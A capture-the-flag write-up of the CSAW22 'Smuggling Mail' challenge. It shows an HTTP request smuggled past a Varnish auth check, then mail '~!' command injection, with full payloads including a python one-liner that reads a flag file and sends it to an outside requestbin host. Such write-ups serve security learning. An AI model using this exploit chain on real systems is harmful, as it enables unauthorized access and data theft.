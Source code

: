 # Smuggling Mail | CSAW22 Quals

## Description

Join our waitlist and we'll let you know about apartment vacancies!

http://web.chal.csaw.io:5009/

## TL;DR

Smuggle an HTTP request through Varnish to `/admin/alert` and use a command exploit for mail to send the flag to an external website.

### First Steps

I downloaded the source code to look around a little bit. Inside the `package.json` file and `server.js` file, I found a couple of libraries that I have never seen before.

- [hitch](https://github.com/bkardell/Hitch) is a css library to restyle the interface
- varnish is a http accelerator and reverse proxy,[npm site](https://www.npmjs.com/package/varnish) and [description](https://www.sitepoint.com/how-to-boost-your-server-performance-with-varnish/)
- varnish seems to be performing the authentication for the server and not express.

The name `Smuggling Mail` makes me think that this is [Request Smuggling](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling)

### A Rabbit Hole

I originally thought that this was going to be either a `CL.TE` or `TE.CL` request smuggling exploit. After trying this for a while, I asked the admins if this was the right exploit to chase. They responded saying that it wasn't, so back to the drawing board.

### Right Path

Varnish is a reverse proxy program and a load balancer. In it's current state for the program, it serves as an endpoint user authenticator, as it authenticates all requests to `/admin` here:

```
sub vcl_recv {
    if (req.url ~ "/admin" && !(req.http.Authorization ~ "^Basic TOKEN$")) {
        return (synth(403, "Access Denied"));
    }
}
```

The express server that is running does not authenticate any requests to the actual backend server. Therefore, I can use request smuggling to get to `/waitlist`, and then ask for `/admin/alert` right after using a `Content-Length: 0` header. 

After a little bit of testing with a local instance, I can confirm that the smuggling works with a post to `/waitlist` then `/admin/`. This was done with burpsuite repeater, where I managed to show the admin panel in the response body. 

```
POST /waitlist HTTP/2
Host: localhost:8083
Content-Length: 0

GET /admin/ HTTP/1.1
Host: localhost:8083
``` 

Continuing to use this exploit, I switched to posting to the `/admin/alert` endpoint. Looking at the source, I see that the post request must have a message body in json labeled as `msg`.

```js
app.use(express.json());
...
// Emergency alert email notification system for all residents
app.post("/admin/alert", (req, res) => {
    if (req.body.msg) {
        const proc = spawn("mail", ["-s", "ALERT", "all_residents@localhost"], {timeout});
        proc.stdin.write(req.body.msg);
        proc.stdin.end();
        setTimeout(() => { kill(proc.pid); }, timeout);
    }
    res.end();
});
```

```
POST /waitlist HTTP/2
Host: https://localhost:8080
Content-Length: 0

POST /admin/alert HTTP/1.1
Host: https://localhost:8080
Content-Type: application/json
Content-Length: 14

{"msg":"test"}
```

After messing with a local instance, I modified the server script to output the request body into `/tmp/output.txt` in order to receive additional insight into what the program is doing. 

```js
// Emergency alert email notification system for all residents
app.post("/admin/alert", (req, res) => {
    if (req.body.msg) {
        fs.writeFile("/tmp/output.txt", req.body.msg, function(err) {
            if(err) {
                return console.log(err);
            }
        }); 
        const proc = spawn("mail", ["-s", "ALERT", "all_residents@localhost"], {timeout});
        proc.stdin.write(req.body.msg);
        proc.stdin.end();
        setTimeout(() => { kill(proc.pid); }, timeout);
    }
    else{
        fs.writeFile("/tmp/output.txt", "got a post", function(err) {
            if(err) {
                return console.log(err);
            }
        }); 
    }
    res.end();
});
```

After running the same request, attaching to the docker container using `docker exec -ti DOCKER_ID /bin/bash`, and looking at `/tmp/`, we see that our request is actually going through and is outputting our `msg` data in `output.txt`. 

Our next step is figuring out how to read and exfil the flag data. I need to have command execution through the `proc.stdin.write` into the `mail` process.

After googling around for quite a while, I found an RCE [here](https://github.com/fail2ban/fail2ban/security/advisories/GHSA-m985-3f3v-cwmm) that describes an exploit with `~!` in mail, an escape that executes a specified command and returns to the mail compose mode. The [manual](https://mailutils.org/manual/mailutils.html#index-_007e_0021_002c-mail-escape) pages go more into depth on this.

Trying this exploit out with `~! cat /app/flag.txt"` directly in `mail` shows that the flag is read correctly. Testing this out through burp shows the same result.

```
POST /waitlist HTTP/2
Host: localhost:8083
Content-Length: 0

POST /admin/alert HTTP/1.1
Host: localhost:8083
Content-Type: application/json
Content-Length: 43

{"msg":"~! cp /app/flag.txt /tmp/flag.txt"}
```

```
root@49cc51351ff2:/tmp# cat flag.txt
flag{t35t_f14g_g035_h3r3}
```

At first I tried to overwrite the public `index.html` with the flag with `{"msg":"~! cat /app/flag.txt >> /app/public/index.html"}`, but it doesn't seem like I am able to overwrite files. So now to exfil another way. 

Using `apt list`, I saw that python2.7 was installed. This is great, as we can easily use libraries to request to an external website without having to use sockets directly from bash.

Testing a custom python2.7 command shows that we can read the file and send it to a [requestbin](https://requestbin.com/), which I tested [locally](https://requestbin.com/r/eno4g82ze6nt9/2EbpHsodXSPYk4HE3FGxEhnChRd).

```
POST /waitlist HTTP/2
Host: localhost:8083
Content-Length: 0

POST /admin/alert HTTP/1.1
Host: localhost:8083
Content-Type: application/json
Content-Length: 138

{"msg": "~! python -c 'import urllib2; f=open(\"/app/flag.txt\").read(); urllib2.urlopen(\"https://eno4g82ze6nt9.x.pipedream.net/?\"+f)'"}
```

From here I switched to the public server, and got the flag.

### Solve

```
POST /waitlist HTTP/2
Host: https://web.chal.csaw.io:5009
Content-Length: 0

POST /admin/alert HTTP/1.1
Host: https://web.chal.csaw.io:5009
Content-Type: application/json
Content-Length: 138

{"msg": "~! python -c 'import urllib2; f=open(\"/app/flag.txt\").read(); urllib2.urlopen(\"https://eno4g82ze6nt9.x.pipedream.net/?\"+f)'"}
```

### Flag

```
flag{5up3r_53cr3t_4nd_c001_f14g_g035_h3r3}
```
